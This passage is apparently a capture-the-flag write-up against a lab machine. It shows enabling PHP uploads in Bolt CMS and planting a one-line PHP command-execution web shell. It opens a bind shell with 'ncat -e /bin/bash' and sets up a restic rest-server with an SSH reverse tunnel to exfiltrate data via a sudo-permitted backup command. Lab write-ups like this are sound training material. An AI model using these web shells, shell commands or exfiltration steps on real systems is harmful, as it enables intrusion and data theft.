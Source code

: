 Also on the left hand side there is a `Configuration` section where I can edit the main configuration. In there I scrolled down until I found the accepted file typed and added php as one of the file types.

![f136593759b32aa3d06c7d0a0dc46632.png](../../resources/9e74b69a97ef421b9049d0f8f4894df3.png)

The first thing I tried was to upload a regular php reverse shell but when I tried to trigger it by navigating to `http://10.10.10.159/bolt/files/shell.php` it executed but my listener never caught the shell. After several tries I came to the conclusion that there must be something blocking outbound connections so I what I did was upload a small php script that allows me to do RCE so I could then execute the `ncat` command to listen for an inbound connection.

Here is the basic php code.
```
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
Then I navigated to `http://10.10.10.159/bolt/files/index.php?cmd=ncat -lvnp 9999 -e /bin/bash` to set the listener on the box and then on my host machine I entered `nc 10.10.10.159 9999`  to connect and with that I now had a shell as `www-data`

Running `sudo -l`  will show that I am able to run a command as root which leads me to believe this is the intended path to exploit
```
www-data@bolt:~$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```
Now figuring out how to exploit this took me a long time, mostly because I can't send traffic out. After many failed attempts and a lot of frustration I finally came to the conclusion that I needed to host the rest server on my host machine and then use SSH port forwarding to forward the port the server runs on to the box and use the tunnel to exfiltrate the data.

First I need to set up the rest server, I will do this using docker. First I pull the docker image from Docker Hub
```
# docker pull restic/rest-server
```
Then I start up the rest-server
```
# docker run -p 8000:8000 -v /my/data:/data --name rest_server -e DISABLE_AUTHENTICATION='foo' restic/rest-server
rest-server 0.9.7 compiled with go1.10 on linux/amd64
Data directory: /data
Authentication disabled
Private repositories disabled
Starting server on :8000
```
Now I set up the SSH port forwarding where I will forward the server running on port 8000 on my host machine to port 8000 on the box.
```
# ssh -R 8000:localhost:8000 -i id_rsa bolt@registry.htb
```
First I create the new repository on the server
```
www-data@bolt:~$ restic -r rest:http://localhost:8000/data init
```